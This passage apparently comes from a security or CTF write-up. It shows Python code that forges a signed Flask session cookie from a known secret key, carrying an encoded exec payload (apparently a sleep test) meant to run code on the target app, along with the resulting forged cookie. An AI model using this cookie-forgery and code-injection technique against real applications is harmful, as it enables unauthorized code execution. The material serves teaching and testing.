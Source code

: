 
Note the ending `#` of the previous payload. This comments any text that follows, avoiding the execution.

We now want to build the cookie that is going to be sent inside our http request.

The following procedure, from a payload intended to be executed in the app's `exec` environment, returns a secure cookie ready for Flask.


```python
from flask.sessions import URLSafeTimedSerializer, TaggedJSONSerializer
from itsdangerous import TimestampSigner

def from_payload_to_cookie_for_flask(pl_to_send, secret_key_flask, debug_recipe=False):

    cookie_for_session = {u'ingredient': pl_to_send, u'measurements': ' '}
    cookie_to_send = URLSafeTimedSerializer(
    secret_key = secret_key_flask,
    salt = 'cookie-session',
    serializer = TaggedJSONSerializer(),
    signer = TimestampSigner,
    signer_kwargs = {
        'key_derivation':'hmac',
        'digest_method':hashlib.sha1
        }
    ).dumps(cookie_for_session)
    if debug_recipe:
        recipe = '%s = %s' % (cookie_for_session['ingredient'], cookie_for_session['measurements'])
        print( "Recipe: " + recipe + "\nLEN RECIPE: " + str(len(recipe)))
    return cookie_to_send
```

Note that if the `debug_recipe` is set we are able to get info about the `recipe` string that will be computed by the application.


```python
evil_cookie = from_payload_to_cookie_for_flask(make_the_payload_using_base64_and_zlib(pl_sleep),secret_key,debug_recipe=True)
print "COOKIE FOR FLASK:\n%s"%evil_cookie
```

    Recipe: d='%cdecode'%46+'%c'%40;exec "a=%s"%'"eJxNjc0KAyEMhF8leFGhSC+9tI+yLEHTLAT8WVaFwtJ3r+6pl2GYL5nhD5NRSknay9GgSeLXFFcj824edrDbqRFDl9gkV0T9XAi2cgCBZDDWIVL0dZDhgq98mdrDlfLIjQXZQJNver7QwNmncQfrcl9nQyrvHtn9z3ztDxD7NPU="'+d+'"base64")'+d+'"zlib")';exec a# =  
    LEN RECIPE: 250
    COOKIE FOR FLASK:
    .eJw90MtuozAYBeBXqVh3QUiZUSt1kdaX2FGMYmwI_w4wGi7GpYGW0CjvXlazONI5i7P5bl7j_l0q01Ru8l5u3kPhvXiAfMdT0UEqvoFqx9UpOCylzdYItPsL53rtuyZTvi0XZvnCbezqKO-Pc-yTUOrNh2zrETTscyLQ4cf6cTyFCicswde3BNXnpCfUbOXhuGUX4d7GY2dAoeQrx6eNslzlQVhXyu5hI6wiNZW9-IwQ8yGVi6T8qjvABbIu32Rzgmx2SrslCww62QFLYnjSzTOQAefUXCNVT7DnuKBwjNNBpmSQcRcGcGZbfTZRkYatTmH9z2FhSVg6YIY-hVUr_hgsnyQykSb6mTXlBd5Hx3pel4EOxDsb-DJ1q01T9dcha9b9M9mKJi2juPXuj15f5ePXpepX3_E_MNu9vnr3-y8AVoCd.X4R6Zg.Rl_riRR1LpLV6Cp_5SeK40cwlYo


We first try it on the app we are running locally.
